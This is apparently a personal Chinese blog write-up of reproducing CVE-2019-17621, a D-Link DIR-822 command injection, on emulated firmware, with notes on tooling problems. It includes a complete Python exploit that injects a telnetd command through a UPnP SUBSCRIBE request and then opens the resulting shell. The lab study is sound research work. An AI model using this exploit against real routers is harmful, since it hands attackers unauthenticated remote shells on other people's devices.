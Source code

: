 ```yaml
---
title: CVE-2019-17621 dlink-822 命令注入漏洞复现
tags: [firmware analysis]
date: 2022-12-17 11:10:00
excerpt: CVE-2019-17621 dlink-822 命令注入漏洞复现
---
```


#### 前言

第一次成功仿真一个固件并成功访问web并成功复现漏洞的exp ......

期间用 firmware-analysis-toolkit 和 firmware-analysis-plus （包括它的docker）在不同的操作系统（kali2020.4，kali2022.4）上来回实验了各种各样的固件，最终的成功目前看来只是一个偶然（因为遇到了太多我目前无法解释的问题）特此记录一下😪

#### 环境

kali2020.4 （同样的固件，同样版本的fap，但是在kali2022.4上运行这个固件时，会Internal Error 500（但起码能访问到这个ip......😅）

固件下载地址：<http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-822>

就这一个版本1.03B03

![](/img/CVE-2019-17621/1.jpg)

fap使用的是2.3版本 <https://github.com/liyansong2018/firmware-analysis-plus/tree/v2.3>

使用的exp来源 <https://www.jianshu.com/p/409106be87b7>

#### 运行

![](/img/CVE-2019-17621/2.jpg)

#### exp

```python
import socket
import os
from time import sleep
# Exploit By Miguel Mendez & Pablo Pollanco
def httpSUB(server, port, shell_file):
    print('\n[*] Connection {host}:{port}').format(host=server, port=port)
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    sleep(1)
    print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send(request.encode())
    results = con.recv(4096)
    sleep(1)
    print('[*] Running Telnetd Service')
    sleep(1)
    print('[*] Opening Telnet Connection\n')
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')
serverInput = raw_input('IP Router: ')
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')
```

#### 坑

这是第一次仿真固件，一开始用的是firmware-analysis-toolkit（fat，<https://github.com/attify/firmware-analysis-toolkit>），首先它安装的时候就一堆问题。包括它的setup.sh里，要安装个lsb-core，但是apt找不到这个包，上网找了半天没找到一个能成功安装的，然后在他的issue里发现有人说这个不是必要的，可以删掉😅，然后setp.sh里还有个qt5base-dev的包，在kali上实际应该是qtbase5-dev😅，我不知道其他系统是啥样，还有一个坑是因为git  clone不稳定，我手动下载的zip包，但实际上这个clone是要recursive的😅，直接运行fat.py他是用pexpect去开启另一个进程，然后新启动的这个进程并不会把输出显示过来，看源码调试半天才发现是少文件，当时还很纳闷😅为啥会少（过于nc）

相对来说firmware-analysis-plus（fap，<https://github.com/liyansong2018/firmware-analysis-plus>）比较友好（和fat基本一样，只不过细节上做了一些修改），首先，其他项目的文件统一放在了库里（没有那个递归了😅）然后还做了一个docker，但是这个docker没有装jefferson，仿真不了jffs的文件系统，只能继续自己配环境😅。fat.py后面要加一个-q qemu-path的参数，否则network  interface列表会为空（nc如我还跑去人家issue底下问，还好人家没过几分钟就回复了😅）

然后exp部分一开始我用的这个帖子的exp ：<http://www.manongzj.com/blog/28-tkbcqqitdf.html>，跑不通，后来换成了前文用的exp，居然好使了。。。我没看出来这俩exp有啥区别，不想管了😅，第一次固件仿真到此结束，漏洞是啥原理暂时不想管了



